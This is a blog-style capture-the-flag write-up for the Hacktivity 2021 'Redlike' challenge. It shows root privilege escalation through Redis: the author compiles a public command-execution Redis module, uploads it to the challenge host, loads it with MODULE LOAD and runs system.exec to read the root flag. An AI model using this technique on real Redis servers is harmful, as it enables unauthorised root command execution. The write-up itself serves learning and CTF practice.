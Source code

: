 +++
title = "Redlike (Redis PrivEsc) Hacktivity 2021 Writeup [Alternate Approach]"
date = "2021-09-19T20:59:21+05:30"
author = ""
authorTwitter = "" #do not include @
cover = "https://miro.medium.com/max/788/0*wj44yAjifjt6VlCP.png"
tags = ["ctf", "hacktivitycon", "hackerone", "redis", "root"]
showFullContent = false

+++

After I read write-ups by other hackers of this challenge, I found out that most of them solved it with adding SSH keys, and I did it by installing redis module, so here is my approach.

As we start the challenge we get ssh login to start with, in privilege escalation just like everyone else I started with [linpeas.sh](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh) after analyzing the results of linpeas I realised soon there is nothing much in this box other than redis.

{{< image src="/images/redlike/2021-09-19_21-14_1.png" position="center" style="border-radius: 5px;" >}}

So I started with checking `redis-server` and `redis-cli` versions.

{{< image src="/images/redlike/2021-09-19_21-14.png" position="center" style="border-radius: 5px;" >}}

Then after some research I came across this redis module.

```url
https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
```

I clone and compiled the module in my VPS and uploaded it to the host.

```bash
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
cd RedisModules-ExecuteCommand
make
scp -P 30341 module.so user@challenge.ctf.games:/tmp/
```

Then I loaded the module and I was able to executed the command as `root` and read the flag.

```bash
redis-cli
MODULE LOAD /tmp/module.so
system.exec "id"
system.exec "ls /root/"
system.exec "cat /root/flag.txt"
```

 {{< image src="/images/redlike/2021-09-19_21-38.png" position="center" style="border-radius: 5px;" >}}
